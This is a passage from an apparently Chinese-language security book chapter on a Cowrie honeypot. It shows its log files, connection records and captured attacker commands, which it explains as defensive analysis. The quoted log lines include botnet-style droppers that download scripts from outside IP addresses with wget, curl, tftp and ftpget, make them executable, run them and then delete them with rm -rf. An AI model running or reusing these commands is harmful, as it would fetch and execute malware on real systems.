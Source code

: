 当浏览器指向蜜罐的地址时，他们将看到这个：

图 14.13 - 从浏览器中看到的 ISC 网络蜜罐

图 14.13 - 从浏览器中看到的 ISC 网络蜜罐

在蜜罐服务器本身上，您可以看到各种登录会话，攻击者可以访问假的 SSH 和 Telnet 服务器。在`/srv/cowrie/var/log/cowrie`中，文件是`cowrie.json`和`cowrie.log`（以及以前几天的日期版本）：

```
$ pwd
/srv/cowrie/var/log/cowrie
$ ls
cowrie.json             cowrie.json.2021-07-18  cowrie.log.2021-07-17
cowrie.json.2021-07-16  cowrie.log              cowrie.log.2021-07-18
cowrie.json.2021-07-17  cowrie.log.2021-07-16
```

当然，`JSON`文件是为您编写代码而格式化的。例如，Python 脚本可能会获取这些信息并将其提供给 SIEM 或其他"下一阶段"的防御工具。

然而，文本文件很容易阅读 - 您可以使用`more`或`less`（Linux 中常见的两个文本查看应用程序）打开它。让我们看一些有趣的日志条目。

以下代码块显示了启动新会话 - 请注意日志条目中的协议和源 IP。在 SSH 会话中，您还将在日志中看到各种 SSH 加密参数：

```
2021-07-19T00:04:26.774752Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 27.213.102.95:40579 (192.168.126.20:2223) [session: 3077d7bc231f]
2021-07-19T04:04:20.916128Z [cowrie.telnet.factory.HoneyPotTelnetFactory] New co
nnection: 116.30.7.45:36673 (192.168.126.20:2223) [session: 18b3361c21c2]
2021-07-19T04:20:01.652509Z [cowrie.ssh.factory.CowrieSSHFactory] New connection
: 103.203.177.10:62236 (192.168.126.20:2222) [session: 5435625fd3c2]
```

我们还可以查找各种攻击者尝试运行的命令。在这些示例中，他们试图下载额外的 Linux 工具，因为蜜罐似乎缺少一些工具，或者可能是一些恶意软件以持续运行：

```
2021-07-19T02:31:55.443537Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] Command found: wget http://142.93.105.28/a
2021-07-17T11:44:11.929645Z [CowrieTelnetTransport,4,58.253.13.80] CMD: cd /tmp || cd /var/ || cd /var/run || cd /mnt || cd /root || cd /; rm -rf i; wget http://58.253.13.80:60232/i; curl -O http://58.253.13.80:60232/i; /bin/busybox wget http://58.253.13.80:60232/i; chmod 777 i || (cp /bin/ls ii;cat i>ii;rm i;cp ii i;rm ii); ./i; echo -e '\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'
2021-07-18T07:12:02.082679Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,33,209.141.53.60] executing command "b'cd /tmp || cd
 /var/run || cd /mnt || cd /root || cd /; wget http://205.185.126.121/8UsA.sh; curl -O http://205.185.126.121/8UsA.sh; chmod 777 8UsA.sh; sh 8UsA.sh; tftp 205.185.126.121 -c get t8UsA.sh; chmod 777 t8UsA.sh; sh t8UsA.sh; tftp -r t8UsA2.sh -g 205.185.126.121; chmod 777 t8UsA2.sh; sh t8UsA2.sh; ftpget -v -u anonymous -p
anonymous -P 21 205.185.126.121 8UsA1.sh 8UsA1.sh; sh 8UsA1.sh; rm -rf 8UsA.sh t8UsA.sh t8UsA2.sh 8UsA1.sh; rm -rf *'"
```

请注意，第一个攻击者在最后发送了一个 ASCII 字符串，以十六进制表示为`'\x63\x6F\x6E\x6E\x65\x63\x74\x65\x64'`，这意味着"connected"。这可能是为了规避入侵防御系统。Base64 编码是另一种常见的规避技术，在蜜罐日志中也会看到。

第二个攻击者有一系列`rm`命令，用于在完成目标后清理他们的各种工作文件。

请注意，您在 SSH 日志中可能会看到的另一件事是语法错误。通常这些错误来自未经充分测试的脚本，但一旦会话更频繁地建立，您将看到真正的人在键盘上操作，因此您将从任何错误中得到一些关于他们的技能水平（或者他们所在时区的深夜程度）的指示。
